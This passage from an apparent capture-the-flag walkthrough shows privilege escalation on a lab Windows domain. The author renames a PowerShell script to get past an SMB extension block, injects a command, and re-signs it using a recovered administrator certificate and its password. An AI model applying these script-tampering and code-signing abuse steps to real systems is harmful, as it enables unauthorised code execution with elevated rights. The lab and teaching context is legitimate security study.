 I’ll copy `Get-bADpasswords.ps1` into the SMB share to get a copy of it. I have to change the extension as `.ps1` is blocked from that folder:

```

c:\Get-bADpasswords>copy Get-bADpasswords.ps1 \share\
Access is denied.
        0 file(s) copied.

c:\Get-bADpasswords>copy Get-bADpasswords.ps1 \share\gbp.txt
        1 file(s) copied.

```

I’ll download the script, and a some line to the top that will print details about the user running the script:

```

whoami /all > C:\Programdata\0xdf.txt

```

I’ll upload that back over SMB, and copy it into place.

#### Sign Script

Now I need to sign the script, because modifying it invalidated the old signature. I’ll first import the certificate into my user’s certificate store and get a reference to it as `$cert`:

```

PS C:\> $pass = ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force

PS C:\get-badpasswords> $cert = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My

PS C:\get-badpasswords> $cert

   PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

Thumbprint                                Subject
----------                                -------
204F12473FD6911584501215758270B25701D049  CN=Administrator, CN=Users, DC=windcorp, DC=htb 

```

Now I can use that to sign the file:

```

PS C:\get-badpasswords> Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert
Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert

    Directory: C:\get-badpasswords

SignerCertificate                         Status                                 Path
-----------------                         ------                                 ----
204F12473FD6911584501215758270B25701D049  Valid                                  Get-bADpasswords.ps1 

```
